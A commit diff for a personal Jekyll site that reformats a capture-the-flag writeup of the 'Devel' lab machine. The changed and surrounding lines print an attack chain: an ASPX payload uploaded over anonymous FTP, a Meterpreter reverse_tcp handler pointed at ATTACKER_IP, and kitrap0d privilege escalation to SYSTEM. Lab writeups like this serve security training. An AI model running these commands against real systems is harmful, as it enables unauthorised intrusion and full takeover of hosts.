

Before and after one commit to J-Xian/J-Xian.github.io, a Jekyll site: the page built from Writeups/Devel/Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1796 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Refine formatting and instructions in Writeup.md
Updated the writeup for clarity and consistency in formatting.

```diff
--- a/Writeups/Devel/Writeup.md
+++ b/Writeups/Devel/Writeup.md
@@ -70,9 +70,9 @@
 4) Upload the ASPX to the webroot via anonymous FTP
 
 ftp TARGET_IP
-# login as anonymous
+ login as anonymous
 put devel.aspx
-# confirm the file is present (e.g., in IIS webroot)
+ confirm the file is present (e.g., in IIS webroot)
 
 If the FTP root maps to the IIS webroot, the uploaded devel.aspx becomes web-accessible (e.g., http://TARGET_IP/devel.aspx).
 
@@ -80,7 +80,7 @@
 
 Start a handler on your attacking host (msfconsole example):
 
-# In msfconsole
+ In msfconsole
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set LHOST ATTACKER_IP
@@ -92,9 +92,9 @@
 
 6) Interact with the Meterpreter session
 
-# In msfconsole
+ In msfconsole
 sessions -i <id>
-# Meterpreter prompt
+ Meterpreter prompt
 sysinfo # confirm OS and architecture (Observed x86)
 pwd # observed /windows/system32/inetsrv
 
@@ -116,7 +116,7 @@
 
 Using msfconsole I executed the exploit against the Meterpreter session:
 
-# in msfconsole
+ in msfconsole
 use exploit/windows/local/ms10_015_kitrap0d
 set SESSION <meterpreter-session-id>
 set LHOST ATTACKER_IP
@@ -130,10 +130,10 @@
 
 10) Verify SYSTEM and capture flags
 
-# switch to the new session (e.g., session 4)
+ switch to the new session (e.g., session 4)
 sessions -i <new-session-id>
 getuid # shows NT AUTHORITY\SYSTEM
-# then retrieve flags
+ then retrieve flags
 cd C:\Users\<user>\Desktop
 type user.txt
 cd C:\Users\Administrator\Desktop
```
Also changed, not shown: other parts of Writeups/Devel/Writeup.md (+3 -3 lines).
